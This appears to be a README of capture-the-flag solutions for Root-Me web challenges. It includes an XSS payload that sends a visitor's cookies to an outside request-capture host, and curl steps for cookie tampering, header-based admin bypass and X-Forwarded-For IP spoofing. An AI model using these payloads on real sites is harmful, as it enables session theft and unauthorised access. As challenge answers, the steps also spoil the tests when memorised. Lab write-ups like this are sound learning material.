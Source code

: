 ### Steps to reproduce

    - Create a free request capturer @ https://pipedream.com
    - Start event listening at the request capturer
    - Visit http://challenge01.root-me.org/web-client/ch32/contact.php
    - As a payload insert http://challenge01.root-me.org/web-client/ch32/index.php?number=%27%3Bdocument.location.href%3D%27https%3A%2F%2F6b6fea4abe6e6a0876505f85b3377c72.m.pipedream.net%2F%3Fitworks%3D%27.concat%28document.cookie%29%3B%2F%2F
    - The url uses document.location to directly redirect, the url is url encoded, the payload breaks out of the client script by suffix '; and prefix // respectively
    - Click on Submit
    - Wait for the bot to click on the link
    - Copy the flag in the captured request cookie

## [HTTP - Cookies](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Cookies)

### Steps to reproduce

    - Start curl interactively: curl -v http://challenge01.root-me.org/web-serveur/ch7/ 
    - Make a POST request with the paylod mail=adm%4Dadm.de&jsep4b=send
    - A cookie with visitor privileges is set
    - Change the cookie value from visitor to admin
    - Make a new GET request to receive the flag

## [HTTP - Directory indexing](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Directory-indexing)

### Steps to reproduce

    - Visit http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt
    - Copy the flag

## [HTTP - Headers](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Headers)

### Steps to reproduce

    - Set the header rootme admin to true through curl
    - For this run curl --header "Header-RootMe-Admin: true" http://challenge01.root-me.org/web-serveur/ch5/
    - Copy the flag from the response

## [HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

### Steps to reproduce

    - Copy your ipv4 address from ipconfig/ifconfig/netstat etc.
    - Run curl -k http://challenge01.root-me.org/web-serveur/ch68/ -H "X-Forwarded-For: 'your_ipv4_address'"
    - Copy the flag from the response
